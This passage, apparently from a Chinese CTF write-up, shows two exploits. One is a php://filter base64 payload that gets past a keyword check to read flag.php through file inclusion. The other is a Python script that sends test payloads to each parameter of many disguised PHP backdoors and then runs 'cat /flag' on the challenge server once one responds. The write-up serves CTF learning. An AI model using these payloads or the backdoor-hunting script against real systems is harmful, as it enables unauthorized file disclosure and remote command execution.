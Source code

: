 >Warning: include(woofers a.php): failed to open stream: No such file or directory in /var/www/html/index.php on line 37
>
>Warning: include(): Failed opening 'woofers a.php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 37

且服务端会检测参数`category`中是否含有`woofers`或`meowers`

尝试绕过并读取flag.php
```html
index.php?category=php://filter/convert.base64-encode/woofers/resource=flag
```
获得flag.php源码

# <强网杯 2019>高明的黑客
打开题目，根据提示下载`www.tar.gz`文件
进行两次解压后得到大量意义不明的php文件

用D盾扫描，全是可疑文件，但其实大部分是伪装的后门，需要找到真正的后门，写脚本对各个文件进行测试便可

```python
import os
import re
import requests


ffs=os.listdir("D:\phpstudy_pro\WWW\src")#添加本地测试文件
ruleg=re.compile("\$_GET\[\'(.*)\'\]")
rulep=re.compile("\$_POST\[\'(.*)\'\]")#创建正则对象
payload='echo "hello_hack";'
ori_url="http://127.0.0.1/src/"
tar_url="http://c7e1440e-a8e9-4442-a836-6952ca624d2b.node4.buuoj.cn:81/"
number=1


for i in ffs:
    print(f"{number}",end="\r")
    number=number+1#显示进度
    with open(f"D:\phpstudy_pro\WWW\src\\{i}") as file:
        f=file.read()#逐个读取文件内容
        ge=ruleg.findall(f)
        po=rulep.findall(f)#找到所有匹配的文本并以列表的方式储存
        post_data={}
        get_data={}#get和post传参的储存
        for getpar in ge:
            get_data[getpar]=payload
        for postpar in po:
            post_data[postpar]=payload#将得到的参数名添加参数值
        url=ori_url+i
        repo=requests.post(url,data=post_data,params=get_data)#访问对应网址
        repo.encoding="utf-8"
        if "hello_hack" in repo.text:#找到可用后门
            print(i)
            post_data={}
            get_data={}#get和post传参的储存
            for getpar in ge:
                get_data[getpar]="cat /flag"
            for postpar in po:
                post_data[postpar]="cat /flag"#将得到的参数名添加参数值
            url=tar_url+i
            repo=requests.post(url,data=post_data,params=get_data)
            print(repo.text)
            break
```
